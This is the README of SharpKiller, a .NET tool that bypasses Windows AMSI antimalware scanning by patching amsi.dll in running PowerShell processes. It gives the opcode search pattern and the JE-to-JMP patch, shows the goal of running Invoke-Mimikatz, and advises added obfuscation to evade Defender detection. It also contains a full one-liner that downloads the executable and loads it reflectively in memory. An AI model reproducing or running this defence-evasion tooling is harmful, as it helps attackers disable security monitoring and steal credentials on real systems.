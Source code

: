 # SharpKiller
Lifetime AMSI bypass AMSI-Killer by @ZeroMemoryEx ported to .NET Framework 4.8.

### Additional Obfuscation required
https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=VirTool:MSIL/SharpKiller.A&ThreatID=2147895059

### Newly integrated features:

[ x ] - Live scan for new powershell processes every 0.5 seconds -> Automatically patches new powershell instances 

#### Building the solution
* Set your platform explicitly to x64 in Build > configuration manager

## How does it work?
### Opcode Scan

* we get the exact address of the jump instruction by searching for the first byte of each instruction this technique is effective even in the face of updates or modifications to the target data set.

* for example :

  ` | 48:85D2 | test rdx, rdx |`

  ` | 74 3F | je amsi.7FFAE957C694 |`

  ` | 48 : 85C9 | test rcx, rcx |`

  ` | 74 3A | je amsi.7FFAE957C694 |`

  ` | 48 : 8379 08 00 | cmp qword ptr ds : [rcx + 8] , 0 |`

  ` | 74 33 | je amsi.7FFAE957C694 |`

* the search pattern will be like this :

  `{ 0x48,'?','?', 0x74,'?',0x48,'?' ,'?' ,0x74,'?' ,0x48,'?' ,'?' ,'?' ,'?',0x74,0x33}`

  
  ![image](https://user-images.githubusercontent.com/60795188/221431685-60fb2012-db0f-41aa-bd7b-3a19f07c91c4.png)

## Patch

### Before Patch

* The program tests the value of RDX against itself. If the comparison evaluates to 0, the program executes a jump to return. Otherwise, the program proceeds to evaluate the next instruction

  ![image](https://user-images.githubusercontent.com/60795188/221431975-73c78c9c-5358-44c2-b0de-41d68024e2bb.png)
  
  <img src="https://github.com/S1lkys/SharpKiller/assets/40408435/59f4ef29-9ed1-4d14-9ea8-f29bf299534d" height="500">

* we cant execute "Invoke-Mimikatz"

  ![image](https://user-images.githubusercontent.com/60795188/221432132-20993ccf-c53e-493d-8b22-feaea86fb6bf.png)

### After Patch


* we patch the first byte and change it from JE to JMP so it return directly 

  ![Screenshot 2023-02-26 195848](https://user-images.githubusercontent.com/60795188/221444031-5b8c365f-cb38-4ce4-89b5-153ecc12208d.png)

  ![image](https://user-images.githubusercontent.com/60795188/221432418-841db688-879c-4915-8d6e-926236a3732c.png)

* now we can execute "Invoke-Mimikatz"
  <img src="https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo_.jpg" height="450">


### Newly created processes

* Sharp-Killer will patch any newly created Powershell processes in near real time.
  <img src="https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo.jpg" height="450">

## Video demo
  ![video](https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo.gif)

## OneLiner to run with reflection
```
$url = "https://github.com/S1lkys/SharpKiller/releases/download/1.1/Sharp-Killer.exe"; $cli = New-Object System.Net.WebClient; $sk=[System.Reflection.Assembly]::Load([byte[]]( $cli.DownloadData($url)));$vars = New-Object System.Collections.Generic.List[System.Object];$BindingFlags= [Reflection.BindingFlags] "NonPublic,Static";$sk.EntryPoint.Invoke($null,@(,$passed));
```

### This error occurs while using mentioned OnLiner?
If you ever saw this message and wondered about it - welcome to the .NET AMSI Interface! :-)
```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '288768 bytes loaded from Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one of its dependencies. An attempt was made to load a program with an incorrect format."
```
* https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/



## References:
* https://github.com/ZeroMemoryEx/Amsi-Killer

